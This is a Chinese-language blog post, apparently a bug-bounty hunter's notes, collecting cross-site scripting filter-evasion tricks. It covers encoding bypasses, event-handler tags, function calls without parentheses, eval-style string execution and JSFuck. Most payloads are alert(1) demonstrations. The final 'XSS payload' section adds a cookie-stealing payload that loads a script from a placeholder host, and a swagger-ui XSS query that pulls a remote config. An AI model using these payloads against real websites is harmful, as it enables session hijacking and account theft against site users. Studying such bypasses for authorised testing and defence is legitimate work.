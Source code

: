 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      xss 				    # 标题
categories: SRC               # 分类 
date:       2024-11-26 				# 时间
author:     z1 						# 作者
catalog: true 						# 是否归档
tags:								#标签
    - src
    - xss
description: XSS漏洞挖掘技巧
---
```

# XSS漏洞

## 1. XSS绕过 -- 标签/属性

### 1. 转义绕过

```html
  <h1>
      a
  </h1>
```

- 这种简单标签无法解析，说明<>被html实体编码为 `&lt`, `&gt`, 可以尝试url编码(对<和>进行url编码)， 或url双编码

```html
<input name="keyword" name="1234">
```
value的值如果有特殊字符，就会被实体化，此时可用onfocus绕过

```html
<input name="keyword" value='' onfocus="javascript:alert(1)" ''>
```

### 2. 属性内容回HTML实体编码绕过

*注意：实体编码只能属于**属性内容**，也就是如下位置*

```html
<img src=1 onerror="alert(1)" />
```

如果想要使用 `alert(1)` ,但是被拦截了，就可以用实体编码：

1. 先进行HTML实体编码
2. 再将html实体编码后的内容进行url编码（&在url中会被识别为参数分隔符）

### 3. 类双写绕过删除过滤

有的过滤是直接删除，可以用类双写绕过waf

- 例如waf对，多个关键字进行了删除过滤
  - `on<script>load=`
  - 过滤删除`<script>`,剩下`onload`

### 4. ***<u>fuzz进行bypass(重点)</u>***

使用burp爆破未检测的标签和属性

[Cross-Site Scripting (XSS) Cheat Sheet - 2024 Edition | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

1. 先跑可用属性
2. 再找对应标签来触发该属性

### 5. 常用标签和属性

```html
<img src=1 onerror=alert(1)>
<img src="https://www.baidu.com/favicon.ico" onload=alert(1)>
<svg onload=alert(1)>  <!-- dom 无法使用 -->
<video src="正常视频" oncanplay=alert(1)>
<input autofocus onfocus=alert(1)>  <!-- 自动聚焦到当前元素，导致执行-->
<a id=x tabindex=1 autofocus onfocus=alert(1) href=1 >
```

## 2. XSS绕过 -- JS技巧

如果可以绕过属性，标签，但是无法弹框或者跳转等方式被拦截，即 `alert()` 被拦截

### 1. unicode编码绕过（不用加引号）

js中的字母会自动进行unicode解码，可以用unicode绕过

alert(1) -> \u0061\u006c\u0065\u0072\u0074(1)

### 2. JS8/ascii 编码绕过（需要加引号）

JS中的字符串可以用 `JS8/ascii` 编码绕过关键字过滤

ascii: alert(1) -> \x61\x6C\x65\x72\x74

js8:    alert(1) -> \141\154\145\162\164\50\61\51

### 3. 平替window对象的几个全局函数

```js
window.alert(1) //window指浏览器页面
this.alert(1)  //this只想当前窗口
parent.alert(1)  //也可平替window对象
self.alert(1)
frames.alert(1)
top.alert(1)
```

这些方式的作用

JS中访问对象有多种方式：

```js
window.alert(1)  //这样的alert(1)是代码，只能进行unicode编码
window['alert'](1)  //这样的alert是字符串，可以进行JS8和ascii编码
//或者进行分割
window['ale'+'rt'](1)
//或进行拼接
window['al'.concat('ert')](1)
//纯数字，利用ascii的10进制编码
window[String.fromCharCode(97,108,101,114,116)](1)
```

### 4. 无括号调用函数(***括号被过滤时使用***)

1. 反引号

   ```js
    `${alert(1)}`  //模板字符串
    //延申用法
    alert `1`
   ```

2. Symbol.hasInstanceof

   ```js
   //需要引号
   class A{static [Symbol.hasInstance]=eval}; 'alert\x281\x29' instanceof A
   'alert\x281\x29' instanceof {[Symbol.hasInstance]:eval}
   ```

    `instanceof` 是运算符，用于判断左操作数是不是右操作数的实例    

   `Symbol.hasInstance`指向一个函数, `eval`，用于自定义对象在`instanceof`运算时的行为，即指定使用哪个函数来检查左操作数是不是右操作数的实例    

   这里``Symbol.hasInstance``函数并没有指向函数，而是指向了 `eval` 

   而 `eval` 是一个全局函数用于执行字符串中的 JavaScript 代码    

   即使用 `eval` 函数来检查 `alert(1)` 是否是有操作数的实例，自然就造成了弹框        

   这里的''内的东西用的ascii，用JS8也可以

### 5. 字符串转代码

```js
1. eval					eval("alert(1)")
2. setTimeout     setTimeout("alert(1)", 0)
3. setInterval      setInterval("alert(1)",999)
4. 匿名函数          (()=>{alert(1)})``	
							(()=>{alert(1)})()
5. 署名函数          Function("alert(1)")``	
							Function("alert(1)")()
6. 原型链              "".at.constructor("alert(1)")()	
							""['at']['constructor']("alert(1)")()  //可以换种方式访问对象，全部转化为字符串
7. Symbol.hasInstanceof
```

### 6. base64过滤关键字

```js
btoa('alert(1)')   //编码
atob('YWxlcnQoMSk=')   //解码
eval(atob('YWxlcnQoMSk='))
```

***同样，也可以换成ascii和JS8编码绕过***

### 7. 弱类型

js是弱类型语言，会进行类型转换，所以就延伸了下面这一种绕过方式

JSFUCK

[JSFuck - Write any JavaScript with 6 Characters: []()!+](https://jsfuck.com/)

## 3. 特殊情况

- 闭合引号后，等号被删除，即不允许使用属性

  - 闭合标签

- 双引号被转义

  - `<input xxx value="\\\" onload=xxx \"">`

    结果<input xxx value="\\\" onload=xxx \"">

## XSS payload

- xss-img-cookie:

  ```html
  <img src=1 onerror='s==document.createElement(`script`);s.src=`https://xxx/cookie.js`;document.body.appendChild(s)'>
  ```

- swagger-ui xss

  ```txt
  ?configUrl=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/config.json
  ```

  


